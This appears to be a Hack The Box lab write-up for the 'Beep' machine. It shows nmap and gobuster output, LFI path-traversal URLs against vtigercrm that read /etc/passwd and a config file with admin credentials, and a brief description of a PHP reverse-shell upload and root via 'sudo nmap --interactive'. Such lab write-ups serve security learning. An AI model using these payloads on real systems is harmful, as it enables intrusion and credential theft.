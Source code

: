 ```yaml
---
title: Beep
author: fieldraccoon
date: 2020-06-24 
categories: [hack-the-box, linux]
tags: [hack-the-box, easy, metasploit, burpsuite, lfi,]
math: true
---
```


# BEEP

Beep was an easy linux box that requried an interesting LFI exploit to read the user flag which lead to another lfi to read a file containing creds. There was multiple methodds for root including a simple ssh as root or spawning a reverse shell on the system and privelege escalating to root via sudo -l and exploiting nmap
> Nmap

```shell
root@kali:~/boxes/beep/# nmap -sS -A 10.10.10.7

Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
Nmap scan report for 10.10.10.7
Host is up (0.16s latency).
Not shown: 988 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 742/udp status
|_ 100024 1 745/tcp status
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
443/tcp open ssl/http Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after: 2018-04-07T08:22:08
|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3Cyrus pop3d
3306/tcp open mysql MySQL (unauthorized)
4445/tcp open upnotifyp?
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1). No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint:
OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)
```
Our nmap scan shows alot of information but we narrow down and try to take away the important details.

On port `80` the service `elastix` is running. It is just simply a login page for what should be htb elastix service which we will need to exploit later.

We run a gobuster scan in dir mode to check for hidden directories to help our enumeration.

```shell
root@kali:~/Desktop# gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Gobuster v1.2 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : https://10.10.10.7/
[+] Threads : 500
[+] Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded : true
=====================================================
https://10.10.10.7/help (Status: 301)
https://10.10.10.7/modules (Status: 301)
https://10.10.10.7/themes (Status: 301)
https://10.10.10.7/lang (Status: 301)
https://10.10.10.7/static (Status: 301)
https://10.10.10.7/admin (Status: 301)
https://10.10.10.7/images (Status: 301)
https://10.10.10.7/var (Status: 301)
https://10.10.10.7/mail (Status: 301)
https://10.10.10.7/panel (Status: 301)
https://10.10.10.7/libs (Status: 301)
https://10.10.10.7/recordings (Status: 301)
https://10.10.10.7/configs (Status: 301)
https://10.10.10.7/vtigercrm (Status: 301)
```

We take a look at the `/vtingercrm` we can see that its running the `vtingercrm` service.

We search for epxloits and comme accross one on exploit-db that shows that it is an LFI and we can read the user flag an any other file with permissions for read access from the user.

> Links [https://www.exploit-db.com/exploits/18770](https://www.exploit-db.com/exploits/18770)

We use this and carry out a few commands like this:

```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

With this we can read the` /etc/passwd` file and it shows a user called `fanis` from here we can change the file name to try and raed the user flag.
```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.ph
p?module_name=../../../../../../../../home/fanis/user.txt%00

And we get user on the box!

# ROOT
Now using the second LIF that we found on exploit db [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)
```shell
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We do this and we read the creds for the administrator for the vtigercrm service 

```Username = admin
Password = jEhdIekWmdjE
```
From here we can simply ssh as root into the box and read the root flag. This is the first method.

I wont cover the rest fully i was do a quick brief.

For root 1 method you can login into vtiger with the creds and navigating around the website you will find an upload section where you can upload a jpg file. We can upload a php reverse shell aslong as we name it shell.php.jpg and we can change the contents in burpsuite to change the needs required, from here we set up a listener and we get a shell.

Note meastploit can also be used with a payload and a listener

For the priv esc we run `sudo -l` shows us that we can run nmap as root. We simply run `sudo nmap --interactive` to spawn a shell with interactive mode on nmap.

Thanks for reading hpoe you enjoyed.
